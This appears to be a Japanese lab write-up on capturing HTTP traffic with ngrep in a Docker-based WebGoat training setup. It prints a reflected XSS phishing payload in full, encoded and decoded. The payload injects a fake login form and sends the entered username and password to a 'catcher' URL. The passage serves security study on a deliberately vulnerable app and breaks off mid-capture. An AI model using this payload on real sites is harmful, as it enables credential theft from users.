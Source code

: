 ### proxyサーバでHTTP通信をキャプチャ
実際にどのようなことが起きているのかは、WEBサーバのログを取得しないとわからない。

1. proxyサーバにログイン  <br>
vagrant@webgoat:~/apps$ sudo docker-compose exec proxy bash <br>
2. ngrepを使用してHTTP通信をキャプチャ <br>
root@c56fe08a3ea2:/# ngrep -W byline 'HTTP' -q > ngrep.log <br>
3. proxyサーバをログアウト <br>
4. ゲストOSでproxyサーバのcontainer IDを調べる <br>
vagrant@webgoat:~/apps$ sudo docker ps <br>
CONTAINER ID        IMAGE                 COMMAND                  CREATED             STATUS              PORTS                    NAMES <br>
937fb140f393        myproxy               "nginx -g 'daemon of…"   6 minutes ago       Up 6 minutes        0.0.0.0:80->80/tcp       apps_proxy_1 <br>
64742ebbea0f        myarachni             "bin/arachni_web --h…"   6 minutes ago       Up 6 minutes        0.0.0.0:9292->9292/tcp   apps_arachni_1 <br>
425df1dc54ac        webgoat/webgoat-7.1   "java -Djava.securit…"   6 minutes ago       Up 6 minutes        0.0.0.0:8080->8080/tcp   apps_webgoat_1 <br>
5. 取得したngrepのログをゲストOSにコピー <br>
vagrant@webgoat:~/apps$ sudo docker cp 937fb140f393:/ngrep.log . <br>

取得したログはこちら＠[ngrep.log](https://github.com/CyExc/CyExc/blob/master/2017/WebGoat/logs/ngrep.log)

/// 192.168.0.100(proxyサーバ)でXMLHttpRequestを受信 <br>
T 192.168.33.1:58712 -> 192.168.0.100:80 [AP]
POST /WebGoat/attack?Screen=1382523204&menu=900 HTTP/1.1.
Host: webgoat.cyexc-target.
Content-Type: application/x-www-form-urlencoded; charset=UTF-8.
X-Requested-With: XMLHttpRequest.
``Username=%3C%2Fform%3E%3Cscript%3Efunction+hack()%7B+XSSImage%3Dnew+Image%3B+XSSImage.src%3D%22http%3A%2F%2Fwebgoat.cyexc-target%2FWebGoat%2Fcatcher%3FPROPERTY%3Dyes%26user%3D%22%2B+document.phish.user.value+%2B+%22%26password%3D%22+%2B+document.phish.pass.value+%2B+%22%22%3B+alert(%22Had+this+been+a+real+attack...+Your+credentials+were+just+stolen.+User+Name+%3D+%22+%2B+document.phish.user.value+%2B+%22Password+%3D+%22+%2B+document.phish.pass.value)%3B%7D+%3C%2Fscript%3E%3Cform+name%3D%22phish%22%3E%3Cbr%3E%3Cbr%3E%3CHR%3E%3CH3%3EThis+feature+requires+account+login%3A%3C%2FH3+%3E%3Cbr%3E%3Cbr%3EEnter+Username%3A%3Cbr%3E%3Cinput+type%3D%22text%22+name%3D%22user%22%3E%3Cbr%3EEnter+Password%3A%3Cbr%3E%3Cinput+type%3D%22password%22+name+%3D+%22pass%22%3E%3Cbr%3E%3Cinput+type%3D%22submit%22+name%3D%22login%22+value%3D%22login%22+onclick%3D%22hack()%22%3E%3C%2Fform%3E%3Cbr%3E%3Cbr%3E%3CHR%3E&SUBMIT=Search``    <br>
 <br>
上記メッセージをnkfを使用してURLデコードすると、   <br>
$ echo   'Username=%3C%2Fform%3E%3Cscript%3Efunction+hack()%7B+XSSImage%3Dnew+Image%3B+XSSImage.src%3D%22http%3A%2F%2Fwebgoat.cyexc-target%2FWebGoat%2Fcatcher%3FPROPERTY%3Dyes%26user%3D%22%2B+document.phish.user.value+%2B+%22%26password%3D%22+%2B+document.phish.pass.value+%2B+%22%22%3B+alert(%22Had+this+been+a+real+attack...+Your+credentials+were+just+stolen.+User+Name+%3D+%22+%2B+document.phish.user.value+%2B+%22Password+%3D+%22+%2B+document.phish.pass.value)%3B%7D+%3C%2Fscript%3E%3Cform+name%3D%22phish%22%3E%3Cbr%3E%3Cbr%3E%3CHR%3E%3CH3%3EThis+feature+requires+account+login%3A%3C%2FH3+%3E%3Cbr%3E%3Cbr%3EEnter+Username%3A%3Cbr%3E%3Cinput+type%3D%22text%22+name%3D%22user%22%3E%3Cbr%3EEnter+Password%3A%3Cbr%3E%3Cinput+type%3D%22password%22+name+%3D+%22pass%22%3E%3Cbr%3E%3Cinput+type%3D%22submit%22+name%3D%22login%22+value%3D%22login%22+onclick%3D%22hack()%22%3E%3C%2Fform%3E%3Cbr%3E%3Cbr%3E%3CHR%3E&SUBMIT=Search' | nkf -w --url-input   <br>
 <br>
/// 悪意のあるスクリプトが送られていることがわかる。    <br>
``Username=</form><script>function+hack(){+XSSImage=new+Image;+XSSImage.src="http://webgoat.cyexc-target/WebGoat/catcher?PROPERTY=yes&user="++document.phish.user.value+++"&password="+++document.phish.pass.value+++"";+alert("Had+this+been+a+real+attack...+Your+credentials+were+just+stolen.+User+Name+=+"+++document.phish.user.value+++"Password+=+"+++document.phish.pass.value);}+</script><form+name="phish"><br><br><HR><H3>This+feature+requires+account+login:</H3+><br><br>Enter+Username:<br><input+type="text"+name="user"><br>Enter+Password:<br><input+type="password"+name+=+"pass"><br><input+type="submit"+name="login"+value="login"+onclick="hack()"></form><br><br><HR>&SUBMIT=Search``<br>
 <br>
/// 192.168.0.100(proxyサーバ)から192.168.0.10(WebGoat)にXMLHttpRequestを送信<br>
T 192.168.0.100:41064 -> 192.168.0.10:8080 [A]
POST /WebGoat/attack?Screen=1382523204&menu=900 HTTP/1.1.